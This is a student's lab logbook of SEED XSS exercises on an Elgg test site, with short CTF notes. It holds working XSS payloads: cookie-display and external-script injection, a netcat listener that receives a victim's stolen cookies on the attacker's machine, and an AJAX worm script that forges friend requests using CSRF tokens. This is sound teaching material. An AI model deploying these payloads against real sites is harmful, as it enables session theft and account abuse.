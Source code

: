 # Trabalho realizado na Semana #10 
# LOGBOOK 10

## Indíce
- Task 1
  
- Task 2
  
- Task 3
  
- Task 4

# Task 1
For this first task we updated brief description of Boby profile to '<script>alert('XSS');</script>', loged out and searched for boby with alice signed in. When we clicked on Boby profile de alert message appeared.

![bobyXSS](/outputs/log10/firstXSS.png)

# Task 2
This task was similar to the last one, with the difference of the script types in the profile. This time we changed the brief description of Boby to '<script>alert(document.cookie);</script>' and then the cookies where shown if we visited the page.

![cookiesXSS1](/outputs/log10/cookiesXSS1.png)

# Task 3
For this task we updated Boby's profile to '<script type="text/javascript"src="http://www.xample.com/myscripts.js"></script>'. This script sends a HTTP GET request to the attacker's machine in port 5555. Because of this, in the terminal we run "nc -lknv 5555" (command to listen to port 5555) and when we visited Boby's profile with Aliced loged in, we recieved Alice' cookies in the attacker's terminal

![cookieStealing](/outputs/log10/cookieStealing.png)

# Task 4
For this task we started by loggin in with Alice, going to Samy's profile and analizing with the browser the requrst sent when we clicked "add friend".

![addSamy](/outputs/log10/addSamy.png)

with this information, we updated the given js script to :
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>

and pasted this into Samy's profile.
After this we logged in Boby's account and when we visited Samy's profile, he was automatically added.

![samyFriend](/outputs/log10/samyFriend.png)

- Question 1:
They are needed to provide information and identify the agent that is adding Samy as a friend.

- Question 2:
If we can point to some external resource that executes the code we want, we do not need text mode.


# CTFs
## Desafio 1:
- Colocar script no local de input que prime botao give flag e esperar que flag seja devolvida.
<script>
    element1=document.getElementById('giveflag');
    element1.click();
</script>

## Desafio 2:
- gets(buffer); é a vulnerabilidade
- permite injeção de codigo para além do espaço do buffer

